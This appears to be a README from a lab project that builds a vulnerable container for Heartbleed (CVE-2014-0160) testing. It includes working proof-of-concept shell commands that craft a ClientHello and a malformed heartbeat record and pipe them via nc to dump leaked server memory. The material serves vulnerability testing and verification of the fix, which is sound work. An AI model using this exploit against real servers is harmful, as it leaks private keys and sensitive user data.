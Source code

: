 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python cve_debian.py --number 2014-0160 --release bullseye --directory heartbleed --selenium --port 4443
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc CONTAINER_IP_ADDRESS 4433 | hexdump -C
```
The default IP address should be 172.17.0.2 .  
We observe that a lot of data thus it is vulnerable. 

If openssl is then updated in the container : 
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.
